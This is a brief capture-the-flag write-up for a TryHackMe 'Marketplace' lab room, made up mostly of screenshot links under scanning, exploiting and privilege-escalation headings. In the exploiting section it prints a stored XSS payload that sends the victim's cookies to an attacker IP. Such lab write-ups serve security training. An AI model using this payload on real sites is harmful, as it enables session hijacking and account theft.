Link room: https://tryhackme.com/room/marketplace
# SCANNING
## using nmap
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/e9014a17-f045-4732-880f-3b791940d9d3)

## using ffuf
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/4012b219-2bc9-480b-baa4-935d999783d5)

## view web

# EXPLOITING
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/206cafef-2ddd-4817-91f5-781248839f0d)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c5193207-b42d-4ef8-b1ed-f9fbc2b86468)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c7f8a660-99db-4f51-a01f-3e1dd6c3e686)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0682eaf8-f2af-4567-9a2d-1dfe0d48d2fd)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0567c9b1-a40b-4616-b34a-6e2b9c1cacb1)

```<script>document.location='http://10.9.218.234:7777/exploit.php?c='+document.cookie</script>```
I sign up account
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bc1a532b-c5da-4c3d-9a22-a6b17e984963)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6a4509a0-99bd-41ab-8a48-938691be86b3)

=> flag 1
## user.txt
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/a4bae777-a9cf-4c57-8666-3546275547c2)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/98967896-3ae9-450d-a470-bf1939306f2a)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ef803c38-f376-49f4-93fd-77b7b8e9b059)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/47c298ed-ef29-4932-b1a2-11e385349247)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/be36137a-fb0a-4fc2-b95f-84c6e8c678af)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bd0abcbb-75e0-4d6e-bf71-29548fe49d43)

# PRIVILEGE ESCALATION
## Done!!!
Thanks for reading. Bye!

